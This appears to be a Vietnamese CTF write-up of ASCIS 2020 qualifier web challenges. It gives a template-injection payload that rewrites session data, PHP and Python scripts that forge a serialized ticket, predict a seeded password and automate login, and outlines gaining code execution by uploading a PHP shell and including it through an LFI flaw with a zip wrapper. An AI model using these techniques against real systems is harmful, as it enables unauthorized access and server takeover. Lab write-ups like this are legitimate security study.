 ```yaml
---
title: "ASCIS 2020 Quals - Web"
date: 2020-01-08
tags: ["ctf", "web"]
layout: layouts/post.njk
---
```

## TSULOTT3
```
POST /

name={% set x=session.update({'check': 'access', 'jackpot': ''}) %}&ok=
```
```
POST /guess

jackpot=
```

## among_us
1. Viết PHP script để generate ra `ticket` và password mới cho user
```php
<?php
class CrewMate {
	public $name = 'tsu';
	public $secret_number = [1, 2, 3, 4, 5, 6, 7, 8, 9];
}

$arr = new CrewMate;
$se = serialize($arr);

echo base64_encode($se) . PHP_EOL;

$de = unserialize($se);
$secret_number = strtoupper($de->secret_number);
$random_rand = rand(0, $secret_number);
srand($random_rand);
$new_password = "";
while (strlen($new_password) < 30) {
    $new_password .= strval(rand());
}
echo 'New password: ' . $new_password . PHP_EOL;
?>
```
2. Viết Python script để tự động hóa việc lấy token để đăng nhập
```python
from re import findall
from hashlib import md5
import requests

REGEX_TOKEN = r'name="token" value="(.*?)"'
PHPSESSID = '' # Nhập PHPSESSID vào biến

while True:
    res = requests.get('http://35.240.156.48/?page=forgot', cookies={
        'PHPSESSID': PHPSESSID
    })
    token = findall(REGEX_TOKEN, res.text)[0]
    res = requests.post('http://35.240.156.48/?page=forgot', data={
        'ticket': 'Tzo4OiJDcmV3TWF0ZSI6Mjp7czo0OiJu[redacted]', # Ticket được lấy từ PHP script ở trên
        'token': token
    }, cookies={
        'PHPSESSID': PHPSESSID
    })

    res = requests.get('http://35.240.156.48/?page=login', cookies={
        'PHPSESSID': PHPSESSID
    })
    token = findall(REGEX_TOKEN, res.text)[0]
    res = requests.post('http://35.240.156.48/?page=login', data={
        'username': 'tsu',
        'password': '117856802212731241191535857466', # Password được lấy từ PHP script ở trên
        'token': token
    }, cookies={
        'PHPSESSID': PHPSESSID
    })
```
Chạy cho đến khi script bị lỗi tại hàm `findall` (vì login xong sẽ không còn form login nữa nên không thể lấy được token, dẫn đến lỗi).
3. Upload 1 PHP shell và server sẽ tạo 1 file zip chứa file mình mới upload lên và sẽ được xóa cho đến khi có 1 lượt upload khác.
4. Sử dụng lỗi LFI ở trang `index.php` + zip wrapper để include PHP shell trong file zip => RCE.
5. Lấy flag ở trong database.
